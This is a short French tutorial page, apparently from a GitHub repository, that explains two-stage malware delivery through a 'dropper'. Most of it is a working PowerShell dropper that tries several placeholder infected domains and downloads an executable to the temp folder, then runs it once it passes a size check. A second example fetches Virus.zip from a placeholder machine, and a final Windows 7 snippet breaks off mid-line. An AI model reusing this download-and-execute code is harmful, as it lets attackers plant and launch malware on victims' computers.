 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

## __Dropper___

### Exemple 1

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

### Exemple 2

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri http://<MACHINE_IP>/Virus.zip -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.w]
```


## 